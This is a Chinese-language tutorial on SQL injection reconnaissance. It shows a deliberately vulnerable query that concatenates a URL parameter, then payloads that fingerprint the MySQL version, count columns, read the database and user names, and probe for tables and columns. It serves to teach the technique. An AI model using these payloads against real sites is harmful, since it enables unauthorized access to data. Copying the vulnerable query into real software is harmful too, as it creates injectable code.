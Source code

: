 


### 获取数据库类型，表名称字段等信息

假定一购物应用返回商品详细信息，访问URL：`https://www.cyub.vip/product?id=123`，业务代码处理逻辑如下：

```php
SELECT * FROM products WHERE id = $_GET['id']
```

#### 获取数据库类型与版本

此时可以通过构造出如下SQL来检查数据库是不是MYSQL,版本是不是5.7

> SELECT * FROM products WHERE id = <font color="red"><b>123 AND mid(version(),1,3) = 5.7</b></font>

此时若能正常返回商品信息，则说明数据库是MYSQL，且版本是5.7


#### 获取数据表字段数

通过第n个字段排序来判断表中字段数:

> SELECT * FROM products WHERE id = <font color="red"><b>123 ORDER BY 10 DESC</b></font>

若能正常返回，说明表products字段数在大于或等于10个，错误则说明表products字段数小于10个。通过此方式不断测试可以推断出来表中字段数。

或者通过union来判断表中字段数:

> > SELECT * FROM products WHERE id = <font color="red"><b>123 UNION SELECT 0,1,2,3,4,5,6,7,8,9</b></font>

#### 获取数据库名称和当前用户名称

在获取数据表字段数之后，可以通过`union`来获取当前数据库名称和当前用户名称

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 and 1=2 union select 1,version(),user(),database()</b></font>

### 判断表或字段是否存在

#### 判断表是否存在
> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND 1<=(SELECT count(*) FROM members)</b></font>


若正常返回商品信息，则说明表member存在，否则表不存在，该语句会执行错误

除上面方法外，还可以通过union来判断表是否存在:

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND 1=2 UNION select 1,2,3,4 FROM members</b></font>


#### 判断字段是否存在

通过如下方式，可以判断字段`name`是否存在:

> SELECT * FROM `products` WHERE id= <font color="red"><b>123 AND name is null</b></font>
